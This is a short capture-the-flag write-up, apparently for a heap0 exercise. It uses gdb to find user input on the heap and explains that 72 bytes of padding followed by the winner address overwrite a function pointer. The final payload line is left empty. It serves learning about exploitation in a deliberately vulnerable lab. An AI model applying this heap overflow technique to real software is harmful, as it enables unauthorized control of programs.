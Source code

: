 We set a breakpoint after at the `strcpy` where our input gets stored in the heap:

```sh
(gdb) disassemble main
Dump of assembler code for function main:
  # ...
   0x080484f2 <+102>:   call   0x8048368 <strcpy@plt>
   0x080484f7 <+107>:   mov    eax,DWORD PTR [esp+0x1c]
  #...
End of assembler dump.

(gdb) break *0x080484f7
Breakpoint 1 at 0x80484f7: file heap0/heap0.c, line 38.
```

Find heap address:

```sh
(gdb) info proc mappings
process 1936
Mapped address spaces:
        # ...
         0x804a000  0x806b000    0x21000        0x0 [heap]
        # ...
```

Run the program with random input to locate out input on the heap:

```sh
(gdb) r AAAA

(gdb) x/24wx 0x804a000
0x804a000: 0x00000000 0x00000049 0x41414141 0x00000000
0x804a010: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a020: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a030: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a040: 0x00000000 0x00000000 0x00000000 0x00000011
0x804a050: 0x08048478 0x00000000 0x00000000 0x00020fa9
```

We can see our input (41414141) at address 0x804a008 first line

Also at `0x804a050` we can see another entry, it happens to be the address for `nowinner` function, so we simply need to overwirite it with the address of winner.

```sh
(gdb) x 0x08048478
0x8048478 <nowinner>: 0x83e58955

(gdb) x winner
0x8048464 <winner>:     0x83e58955
```

Counting the bytes we can see that we need 72 characters to reach the address of `nowinner`. After that we simply need to add the address of `winner` in little endian

Final:
